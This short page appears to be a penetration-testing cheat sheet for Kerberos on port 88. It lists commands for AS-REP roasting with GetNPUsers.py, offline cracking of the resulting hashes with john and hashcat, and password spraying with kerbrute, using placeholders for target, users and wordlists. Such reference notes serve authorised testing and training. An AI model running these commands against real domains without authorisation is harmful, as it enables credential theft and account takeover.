 ```yaml
---
description: >-
  a computer-network authentication protocol that works on the basis of tickets
  to allow nodes to communicate over a non-secure network
---
```


# 88 - Kerberos

### Kerberos Pre-Auth

```text
GetNPUsers.py -dc-ip <target> -usersfile <users> -no-pass <domain>/
GetNPUsers.py -dc-ip <target> -no-pass <domain>/<users>

john <hashfile> -format:krb5asrep --wordlist=<wordlist>
hashcat -m 18200 -a 0 '<hash>' <wordlist> --force
```

```text
kerbrute passwordspray -d <domain> --dc <dc> <users> <pass>
```

